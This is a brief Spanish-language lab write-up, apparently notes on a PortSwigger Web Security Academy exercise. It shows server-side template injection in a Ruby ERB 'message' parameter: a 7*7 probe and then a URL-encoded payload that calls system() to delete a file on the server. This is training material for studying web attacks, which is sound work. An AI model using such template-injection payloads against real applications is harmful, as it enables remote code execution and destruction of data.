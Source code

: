 ![[Pasted image 20221018130803.png]]

![[Pasted image 20221018130938.png]]

si trato de ver algun detalle del producto:

![[Pasted image 20221018131014.png]]


el link es este: https://0a2900690342c013c051373c00fe00ea.web-security-academy.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock

tratando de usar este payload: ?message=<%25%3d+7*7+%25>

![[Pasted image 20221018131136.png]]


la aplicacion usa ruby y esta usando un template tipo erb, de acuerdo a la documentacion se puede tener RCE con un ejemplo como este

<%= system("rm /home/carlos/morale.txt") %>

el payload quedará así: ?message=<%25+system("rm+/home/carlos/morale.txt")+%25>

![[Pasted image 20221018131633.png]]